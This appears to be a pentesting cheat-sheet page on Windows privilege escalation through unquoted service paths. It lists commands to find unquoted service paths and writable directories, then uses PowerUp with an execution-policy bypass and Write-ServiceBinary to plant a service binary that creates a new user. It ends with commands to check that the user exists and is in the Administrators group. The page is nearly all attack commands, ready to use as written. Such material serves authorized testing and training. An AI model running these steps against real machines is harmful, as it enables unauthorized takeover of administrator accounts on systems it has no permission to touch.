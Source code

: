 ```yaml
---
description: Unquoted Service Paths – Windows Privilege Escalation
---
```


# Unquoted Service Path

### Manual Checks

Check service without quotes:

{% code overflow="wrap" %}
```powershell
wmic service get name,displayname,startmode,pathname | findstr /i /v "C:\Windows\\" |findstr /i /v """

# or via Powershell

Get-WmiObject -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '"*'} | select Name,DisplayName,StartMode,PathName
```
{% endcode %}

Check File or Directory Permissions:

{% code overflow="wrap" %}
```powershell
icacls C:\
icacls "C:\Program Files\Some Vuln Service"

# or using SysInternals AccessChk
.\accesschk64.exe -wvud "C:\" -accepteula
.\accesschk64.exe -wvud "C:\Program Files\Some Vuln Service" -accepteula
```
{% endcode %}

Check Service Permissions:

{% code overflow="wrap" %}
```powershell
# cmd
sc query VulnService
sc qc VulnService

# restart
sc stop VulnService
sc start VulnService
```
{% endcode %}

### PowerUp

{% code overflow="wrap" %}
```powershell
powershell -ep bypass
. .\PowerUp.ps1

Invoke-AllChecks
Get-ServiceUnquoted
Get-ServiceDetail "VulnService"
Write-ServiceBinary -Name VulnService -Path "C:\Program Files\Some.exe" -UserName unquoted-user -Password Password123!

# from CMD
sc qc VulnService
sc stop VulnService
sc start VulnService

# check if user created
net users
net localgroup Administrators
```
{% endcode %}
